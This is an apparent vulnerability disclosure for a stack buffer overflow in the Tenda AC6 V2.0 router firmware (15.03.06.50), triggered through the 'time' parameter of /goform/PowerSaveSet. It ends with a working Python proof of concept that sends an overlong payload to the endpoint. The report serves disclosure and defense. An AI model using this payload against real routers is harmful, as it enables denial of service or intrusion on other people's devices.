 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/PowerSaveSet`. When `time` is specified with excessive data, the buffer overflow occurs during `sprintf`/`sscanf`.

![alt text](image-1.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'time': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'3:33-3:' + 0x100 * b'A'
send_payload("http://10.10.10.1/goform/PowerSaveSet", payload)
```
